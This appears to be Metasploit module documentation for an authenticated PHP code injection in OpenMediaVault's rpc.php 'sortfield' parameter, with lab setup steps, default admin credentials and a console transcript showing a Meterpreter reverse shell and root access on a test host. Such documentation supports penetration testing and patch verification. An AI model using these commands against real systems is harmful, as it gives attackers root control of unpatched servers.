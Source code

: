 ## Vulnerable Application

### Description

  This module exploits an authenticated PHP code injection
  vulnerability found in openmediavault versions before 4.1.36 
  and 5.x versions before 5.5.12 inclusive in the `sortfield` 
  POST parameter of the `rpc.php` page, because `json_encode_safe()` 
  is not used in config/databasebackend.inc.
  Successful exploitation grants attackers to perform arbitrary 
  command execution on the underlying operating system as root.


### Installation And Setup

  1. Download version 5.5.11 of OpenMediaVault (i.e. [openmediavault_5.5.11-amd64.iso ISO](https://deac-ams.dl.sourceforge.net/project/openmediavault/5.5.11/openmediavault_5.5.11-amd64.iso)).
  2. Set up a new Debian machine in VirtualBox or VMWare and load the ISO. 
  Follow the install prompts and note the `root` password you choose to use. 
  Once the installation is finished, press `<Enter>` to reboot the server.
  3. Log into via the terminal using the username `root` and the password 
  you set for the `root` user during installation.
  4. On the shell and run the command `ip a` to get the current IP address.
  5. Take the IP address and browse to the URL http://*IP ADDRESS*/, then log in
  with the default administrative credentials (`admin`:`openmediavault`).

## Options

  **TARGETURI**

  The URI path for OpenMediaVault installation

  **USERNAME**

  The username for OpenMediaVault

  **PASSWORD**
  
  The password for OpenMediaVault

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Scenarios

### OpenMediaVault 5.5.11
```
msf6 > use exploit/unix/webapp/openmediavault_rpc_rce
[*] Using configured payload linux/x86/meterpreter/reverse_tcp
msf6 exploit(unix/webapp/openmediavault_rpc_rce) > show options

Module options (exploit/unix/webapp/openmediavault_rpc_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD   openmediavault   yes       The OpenMediaVault password to authenticate with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80               yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       The URI path of the OpenMediaVault installation
   URIPATH                     no        The URI to use for this exploit (default is random)
   USERNAME   admin            yes       The OpenMediaVault username to authenticate with
   VHOST                       no        HTTP server virtual host


Payload options (linux/x86/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic (Linux Dropper)


msf6 exploit(unix/webapp/openmediavault_rpc_rce) > set rhosts 192.168.56.108
rhosts => 192.168.56.108
msf6 exploit(unix/webapp/openmediavault_rpc_rce) > set lhost 192.168.56.105
lhost => 192.168.56.105
msf6 exploit(unix/webapp/openmediavault_rpc_rce) > exploit

[*] Started reverse TCP handler on 192.168.56.105:4444
[*] 192.168.56.108:80 - Authenticating with OpenMediaVault using admin:openmediavault...
[+] 192.168.56.108:80 - Successfully authenticated with OpenMediaVault.
[*] 192.168.56.108:80 - Trying to detect if target is running a supported version of OpenMediaVault.
[+] 192.168.56.108:80 - Identified OpenMediaVault version 5.5.11.
[*] 192.168.56.108:80 - Sending payload (150 bytes)...
[*] Sending stage (976712 bytes) to 192.168.56.108
[*] Meterpreter session 1 opened (192.168.56.105:4444 -> 192.168.56.108:38508) at 2020-10-07 01:16:01 -0400
[*] Command Stager progress - 100.00% done (799/799 bytes)

meterpreter > sysinfo
Computer     : 192.168.56.108
OS           : Debian 10.5 (Linux 5.7.0-0.bpo.2-amd64)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
meterpreter > shell
Process 1499 created.
Channel 1 created.
id
uid=0(root) gid=0(root) groups=0(root)
```
